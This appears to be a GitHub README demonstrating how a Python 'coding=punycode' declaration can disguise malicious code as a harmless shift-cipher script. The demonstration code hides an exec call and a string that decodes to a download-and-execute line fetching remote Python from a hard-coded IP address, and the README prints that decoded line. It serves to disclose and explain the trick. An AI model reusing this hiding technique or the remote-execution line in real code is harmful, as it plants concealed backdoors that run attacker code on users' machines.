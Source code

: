 # The weird code

This is a demonstration that the encoding declarations ( https://docs.python.org/3/reference/lexical_analysis.html#encoding-declarations ) of python in conjunction with punycode encoding can be used to craft malicious code snippets that look benign.



## Demonstration Code

The code: <br>
(Note: copying this code may break it as described at the bottom of `The encoding used in the code`)

```py
#They say codying is fun, but I like puns, so when I code, coding!=funnycode, but coding=punycode ... anyways, here is some nice python code :)

I="I"
love="love"
python="python"

print(I, love, python)

# shift cipher!
def shift_cipher(s, key):
    return ("".join(chr((ord(c) + key) % 128) for c in s))

# this string is super secret, so I encrypted it!
secret="ymnx%nx%f%xjhwjy%rjxxflj&"

print(shift_cipher(secret, -5))

# I love python comments, so I put one more here with some crap <3:
# here is some crap: -47415qpygaa76ea29ah9daca59abba63qeacaacc99aad01ba90babbc80bf52ba42j1lla61b70aqa632n6a49a6a40b9a19aedb39aaead4agc17j4lb81kao43bip4nlafc6b63awaf14bvobfo1b48ac55bmava93bjap79km616kt0aa689f
```


## What does it do?
Lines with comments don't matter, right? <br>
So let's look at the code without comments first:

```py
I="I"
love="love"
python="python"

print(I, love, python)

def shift_cipher(s, key):
    return ("".join(chr((ord(c) + key) % 128) for c in s))

secret="ymnx%nx%f%xjhwjy%rjxxflj&"

print(shift_cipher(secret, -5))
```

Up to `print(I, love, python)` it is quite obvios: <br>
We just assign three variables and print them.
In python, printing multiple values with a single call to `print` will seperate them with a space.
So we get:

```
I love python
```

Next up is the `shift_cipher` function.
As the name indicates, it takes the character code of every character of the provided string and adds the key to it.
Then, ensures that it is between `0` and `128` (some ascii character) and converts it back to a character.

if we called `shift_cipher("abz", 1)` we would get `"bc{"` (`"{"` just happens to be the next character after `"z"`).

So if we shift `"ymnx%nx%f%xjhwjy%rjxxflj&"` by `-5`, we just have to look up the characters in an ascii table and subtract `5` and look at the character we get from that.
If we were to reach negative numbers we would have to wrap around starting at `127`.
But that never happens.

So, we expect the code to print `this is a secret message!`.


## But what does it REALLY do?

See, python is weird.
Comments are not always comments.
Especially in the first two lines, you can use comments to indicate how the python interpreter should do some things.


### Encoding

One thing you can specify is the encoding (The way how characters are encoded. This is relevant as soon as you have characters that are bigger than 255 and thus cannot be represented in a single byte.).
By default, python is supposed to use `utf-8` (but I'm not sure this is the case on Windows.) - the most sensible encoding to use!
But if we want something else, we can add a comment in the first line specifying a different encoding like this:

```py
# coding=utf-16
```

More specifically it can also be in the second line, if the first line is a comment.
And, the interpreter searches for the following pattern: `coding[=:]\s*([-\w.]+)` - meaning `coding` followed directly by `=` or `:`, then an arbitrary amount of whitespace characters followed by an arbitrary amount (but at least one) of `.`, `-`, or characters that match `\w` (`a-z`, `A-Z`, `0-9`, and `_`).
One important observation: The interpreter searches this pattern ANYWHERE in the line, so the line can also contain a lot of other stuff apart from it.


### The encoding used in the code

So if we look through the first line of the script, we can find `coding=punycode` which matches the pattern!
So we use `punycode` to encode the file?
What is that?

You may know that Internet domains can contain emoji characters now (e.g., `i❤️.ws` is a valid domain).
However, everything that makes up the backbones of the internet can basically only handle ascii characters.
So punycode was invented to encode arbitrary emojis etc. in ascii strings.
Here is a link to wikipedia explaining it a bit (we will cover the important parts below anyways though): https://en.wikipedia.org/wiki/Punycode
For instance, `i❤️.ws` would be encoded as `xn--i-7iq.ws`.

The important parts of punycode encoding to understand the script is:
1. it keeps ascii characters the same and doesn't touch them
2. it removes all non-ascii characters but adds information on how to add them back in at the end of the encoded file
3. to mark the beginning of where the information to add characters back in starts, it adds a `-` character just before.

So after the last `-` character, there will be information on how to insert special characters into the script.

The reason this code may not work if you copy paste it around is that changes to whitespace or newlines (which are sometimes made by text editors) matter to the punycode encoding and will break the code.


### Looking at the ACTUAL code

I don't really understand the details of the encoding, but we can decode the script using python (this script just removes the first line containing the comment and decodes the rest using punycode):

```py
import sys
print((b"\n" + b"\n".join(open(sys.argv[1], "rb").read().split(b"\n")[1:])).decode("punycode"))
```

We get the following code (see `decoded.py`):

```py


I="I"
love="love"
python="python"

print(I, love, python)

# shift cipher!
def shift_cipher(s, key):
    return ｅｘｅｃ("".join(chr((ord(c) + key) % 128) for c in s))

# this string is super secret, so I encrypted it!
secret="﩮全冀充勺啕逸喙勺况况﩮逸勉勺頻勇喙頻喝啕逸辶喝逸充﨏頻墳頻難鶴充勉喙勺况充冀頻侀鶴﨧舘啕啕冀憎勤勤層嘆勉喝屮喝勉喝悔嘆勉喝卑卑憎喝器器屮勤逸響﨧郞勉勺頻辶響鶴郞勉響頻難充響頻鶴郞郞﨨ymnx%nx%f%xjhwjy%rjxxflj&"

print(shift_cipher(secret, -5))

# I love python comments, so I put one more here with some crap <3:
# here is some crap: 
```

One other thing important in python is, that unicode characters that are letters (for example `ｅ`) are treated like their ascii counterparts (in this case `e`) for variable names.
So `ｅｘｅｃ` is the same as `exec`, but it disappears to the end of the file when encoding with punycode.

If you are new to python, `exec` basically takes a string and executes it as python code.
And `shift_cipher` no longer just decrypts the given string, but it also executes the result.
So if we give it ("encrypted") evil code, we may be in trouble.

We now also see that `secret` actually contains a whole lot of unicode characters, but what happens if we put them through `shift_cipher`?

The short answer is: Those symbols are chosen such that subtracting `5` from them does not convert them to usable code, but the `% 128` is also needed to make them useful.
With the `% 128` I can ensure that I can convert a unicode character that will be removed by punycode encoding and put at the end to any ascii character I want.
Thus, I can make that `shift_cipher` executes whatever python code I want after decrypting it without any characters in the python script changing except for the comment in the last line.

So what did I put into the string?
Let's decode it:

```py
import urllib.request as o
exec(o.urlopen("http://62.171.182.100:1337/bd").read().decode())#
```

This is bad!
The script sends a request to `http://62.171.182.100:1337/bd` and executes whatever it gets back.
So I basically can send arbitrary malicious python code and it gets executed!


## The moral of the story

Don't trust my code!
